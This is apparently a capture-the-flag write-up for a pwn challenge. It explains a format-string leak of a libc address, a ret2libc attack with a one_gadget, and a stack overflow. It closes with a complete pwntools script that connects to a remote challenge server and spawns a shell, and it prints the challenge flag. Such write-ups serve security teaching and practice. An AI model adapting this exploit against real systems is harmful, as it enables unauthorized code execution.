



# Robust Orbital Postal Service
```You managed to break into another one of the imposter's communication system, named the Robust Orbital Postal Service. This service lets the imposters send messages to one another secretly. Are you able to find out about their secrets?```

## Reconnaissance
Doing the things that we should do in Pwn:




Also, note that we have a LIBC file:


## Vulnerability Analysis
- `printf()` without *format strings* means a **Format String Exploit.**
- Unlike the previous FSBS challenge, there is no `getflag()` function.
    - Unfortunately, there is *NX bit* up.
    - So it has to be a **ret2libc** exploit (at least, that's what I assumed or this challenge would have been out of my capacity).
        - This is also reasonable considering we are given a `custom libc version`.
- PIE implies the need to leak PIE base... or do we?

**Verdict: ret2libc**

## The 15-min Exploit. (Refer to Script)
ret2libc attacks (that I know of) primarily concern themselves with exploiting `one_gadgets`, which spawns a shell so long as the constraints are met.

So we will be looking for `libc offsets` to jump into the `one_gadget`:


And the `one_gadget` itself:


Then, we simply perform your standard ret2libc exploit routine: 

1. Leak `libc base` with a known `libc` function:
2. 


We are using the **Format String Exploit** from the previous challenge (FSBS).


Then we look up the custom LIBC offset using LIBC-database.


In this case, our dear address is given by this line in our script:
```python
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
# Subject to change, of course, due to PIE.
```

2. Find our one_gadget address.

This... requires no explanation. Just use `one_gadget`.


I used the first one.

3. Lastly, **clear all constraints** as stipulated and jump to the `one_gadget`.

Because we are using `rax`, we can simply terminate the input string (`'\0'`) to reset it to `NULL`.

And just like that we clear our constraints!
We spare you the pain of looking at us connect to the server and thus we retrieve the flag:

`DSO-NUS{13514e093f9b3c56ed27bad097ea810b27c1e754b7de98d6ff8bc3006f5ab82d}`

## Appendix: The Script
```python
from pwn import *
context.log_level='DEBUG'
#r=process(["./ROPS"],env={"LD_PRELOAD": "libc.so.6"})
r=remote("ctf-jfi4.balancedcompo.site",9995)
# ROPS.so.6 in libcdatabase: local-f6cb23f4bb2899adab95d11fc2e5eba3ed1c3266
context.terminal=['/usr/bin/tmux', 'splitw', '-h']
r.recvuntil("name:")
r.sendline("%19$p") # This time we want a LIBC address whose offset we can find. This one has offset 243.
r.recvuntil("to:")
r.recvline()
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
print(hex(libc_base))
#pause()
one_gadget=libc_base+0x44b9f
# Three candidates. Depends on the gadgets you can find. I'll try the first one...
# 0x44b9f - requires rax==0
# 0x44bf3 - requires [rsp+0x30]==0
# 0xe85c6 - requires [rsp+0x60]==0
r.sendline(b"\0"+b"A"*263+p64(one_gadget)) # Offset is again found at 264.
r.interactive()

```
